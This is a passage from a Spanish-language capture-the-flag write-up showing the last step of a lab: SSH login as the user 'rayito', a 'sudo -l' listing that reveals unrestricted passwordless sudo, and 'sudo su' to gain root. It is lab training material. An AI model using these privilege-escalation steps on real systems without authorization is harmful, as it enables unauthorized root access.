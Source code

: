 Probamos a conectarnos por **ssh** con el usuario **rayito** y obtenemos acceso a la última máquina:

```bash
ssh rayito@30.30.30.3
rayito@30.30.30.3's password:
$ whoami
rayito
```

Podemos ejecutar cualquier cosa como **root**:

```bash
rayito@11f0a64a79da:~$ sudo -l
Matching Defaults entries for rayito on 11f0a64a79da:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User rayito may run the following commands on 11f0a64a79da:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Nos cambiamos a **root** y terminamos la máquina:

```bash
rayito@11f0a64a79da:~$ sudo su
root@11f0a64a79da:/home/rayito# cd
root@11f0a64a79da:~# whoami
root
root@11f0a64a79da:~#
```